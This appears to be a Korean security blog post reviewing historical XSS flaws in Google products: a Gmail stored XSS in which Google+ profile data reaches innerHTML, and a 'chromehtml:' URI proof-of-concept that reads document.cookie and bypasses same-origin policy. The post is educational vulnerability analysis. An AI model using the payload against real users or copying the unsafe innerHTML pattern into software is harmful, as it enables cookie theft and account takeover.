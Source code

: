 ```yaml
---
layout: post
title: "Gmail XSS - 2012"
date: 2014-04-23 09:29:16 +0900
comments: true
categories: 
---
```


Google 프로덕트에서 발견된 대표적인 XSS 취약점들을 리뷰해본다.

### [Google Mail Hacking - Gmail Stored XSS - 2012!](http://www.benhayak.com/2012/06/google-mail-hacking-gmail-stored-xss.html)

    // This Gmail Code was creating a Tool-tip that included 
    // profile circles information that comes from 
    // your Google Plus friend's account, 
    // if they used a payload, 
    // your mail account would have been at a serious risk.

    zk.prototype.Ca = function $pn(a,c,d) {
        this.xa = 0;
        if (!this.ea) {
            // ...
            var e = this.Bb.zb().body, g = this.ea.va();
            // ...
            e.wa = h
        }
        a: {
            if (d)
                switch (d.toLowerCase().split(",")[1]) {
                    case "l":
                        break a;
                    case "r":
                        // ...
                        break a
                }
            e = 2;
        }
        this.wa.setPosition(cka(d),e,i,-1);
        jc(this.ea.va(), "T-ays-avH");
        ud(this.ea.va(), 0, 0);
        this.ea.Mc().innerHTML = c; // c = Data from Google+
        this.wa.To(a);
        this.wa.Me(k, 0);
    };

정리하면 위 코드는 Google+ 친구의 프로파일 정보를 Tool-tip 의 innerHTML 에 장착한다. 결국 친구 프로파일을 보여주는 Tool-tip 이 뜨는 순간, 내 브라우저에 payload 가 실행될 수 있다는 것.

### ["CHROMEHTML" URI Vulnerability](http://blog.watchfire.com/files/google-chrome-advisory.doc)

    var sneaky = 'setTimeout("alert(document.cookie);", 4000);document.location.assign("http://www.gmail.com");';
    document.location = 'chromehtml:"80%20javascript:document.write(sneaky)"';

chromehtml: uri handler 를 통해서 javascript 을 수행시키고, setTimeout() 을 통해 SOP 를 바이패스한다. 
